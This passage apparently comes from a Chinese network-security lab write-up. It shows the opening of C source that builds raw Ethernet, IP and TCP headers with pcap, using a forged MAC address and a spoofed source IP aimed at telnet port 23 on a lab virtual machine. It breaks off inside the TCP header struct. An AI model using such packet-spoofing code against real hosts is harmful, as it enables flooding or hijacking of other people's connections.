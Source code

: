 5. 实验完整源码

   ```c
   //2019.10.27
   //by zhyjc6
   #include <pcap.h>
   #include <Packet32.h>
   #include <stdio.h>
   #include <WinSock2.h>
   #include <ntddndis.h>
   
   #pragma comment(lib, "ws2_32.lib")
   
   #define dstIP "192.168.109.133"		//虚拟机1
   #define srcIP "192.168.109.128"		//虚拟机2
   #define srcPORT 9999
   #define dstPORT 23
   #define IPPROTO_TCP 6
   #define TIME 100
   
   typedef unsigned int u32;
   typedef unsigned short u16;
   typedef unsigned char u8;
   
   u8 dstMAC[] = { 0x00,0x0c,0x29,0x13,0x49,0xc5 };			//虚拟机1mac
   //u8 srcMAC[] = { 0x32,0xC6,0xB1,0x2D,0x8B,0xF1 };			//实体机
   //u8 srcMAC[] = { 0x00,0x0c,0x29,0x68,0x95,0x2e };		//虚拟机2
   u8 srcMAC[] = { 0x99,0x99,0x99,0x99,0x99,0x99 };		///虚假MAC
   
   
   
   //以太网帧包结构
   typedef struct __eth_header 
   {
   	u8 dstMacAddr[6];
   	u8 srcMacAddr[6];
   	u16 ethernetType;
   } ETH_HEADER;
   
   
   //IP数据包首部格式结构体
   typedef struct __ip_header
   {
   	u8 versionAndHeader;					//4位首部长度，和4位IP版本号
   	u8 serviceType;						//8位类型服务
   	u16 totalLen;							//16位总长度
   	u16 identification;						//16位标识,用于分片后合体
   	u16 flagAndFragPart;					//3位标志位（如SYN,ACK,等等)+13位片偏移
   	u8 ttl;									//8位生存时间TTL
   	u8 hiProtovolType;						//8位协议(TCP,UDP)
   	u16 headerCheckSum;						//16位ip首部效验和
   	u32 srcIpAddr;							//32位伪造IP地址
   	u32 dstIpAddr;							//32位攻击的ip地址
   } IP_HEADER;
   
   
   //TCP数据包首部
   typedef struct __tcp_header 
   {
   	u16 srcPort;					    //16位源端口号
   	u16 dstPort;					    //16位目的端口号
   	u32 seqNumber;					    //32位序列号
   	u32 ackNumber;						//32位确认号
   	u8 headLen;						//4位首部长度(数据偏移)+6位保留字中的前4位
   ```